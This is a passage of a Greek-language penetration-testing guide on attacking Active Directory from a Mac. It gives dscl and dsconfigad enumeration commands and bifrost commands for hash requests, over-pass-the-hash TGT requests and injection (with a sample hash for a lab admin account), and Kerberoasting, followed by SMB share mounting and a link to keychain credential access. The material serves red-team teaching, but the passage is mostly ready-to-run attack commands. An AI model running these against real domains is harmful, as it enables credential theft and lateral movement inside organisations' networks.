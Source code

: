 ```bash
dscl "/Active Directory/TEST/All Domains" ls /Groups
dscl "/Active Directory/TEST/All Domains" read "/Groups/[groupname]"

#Domain Information
dsconfigad -show
```
Περισσότερες πληροφορίες στο [https://its-a-feature.github.io/posts/2018/01/Active-Directory-Discovery-with-a-Mac/](https://its-a-feature.github.io/posts/2018/01/Active-Directory-Discovery-with-a-Mac/)

### Computer$ password

Αποκτήστε κωδικούς πρόσβασης χρησιμοποιώντας:
```bash
bifrost --action askhash --username [name] --password [password] --domain [domain]
```
Είναι δυνατή η πρόσβαση στον **`Computer$`** κωδικό πρόσβασης μέσα στο System keychain.

### Over-Pass-The-Hash

Αποκτήστε ένα TGT για έναν συγκεκριμένο χρήστη και υπηρεσία:
```bash
bifrost --action asktgt --username [user] --domain [domain.com] \
--hash [hash] --enctype [enctype] --keytab [/path/to/keytab]
```
Μόλις συγκεντρωθεί το TGT, είναι δυνατή η έγχυσή του στην τρέχουσα συνεδρία με:
```bash
bifrost --action asktgt --username test_lab_admin \
--hash CF59D3256B62EE655F6430B0F80701EE05A0885B8B52E9C2480154AFA62E78 \
--enctype aes256 --domain test.lab.local
```
### Kerberoasting
```bash
bifrost --action asktgs --spn [service] --domain [domain.com] \
--username [user] --hash [hash] --enctype [enctype]
```
Με τα αποκτηθέντα εισιτήρια υπηρεσιών είναι δυνατή η προσπάθεια πρόσβασης σε κοινόχρηστα αρχεία σε άλλους υπολογιστές:
```bash
smbutil view //computer.fqdn
mount -t smbfs //server/folder /local/mount/point
```
## Πρόσβαση στο Keychain

Το Keychain περιέχει πολύ πιθανόν ευαίσθητες πληροφορίες που αν αποκτηθούν χωρίς να δημιουργηθεί προτροπή θα μπορούσαν να βοηθήσουν στην προώθηση μιας άσκησης red team:

{% content-ref url="macos-keychain.md" %}
[macos-keychain.md](macos-keychain.md)
{% endcontent-ref %}

## Εξωτερικές Υπηρεσίες
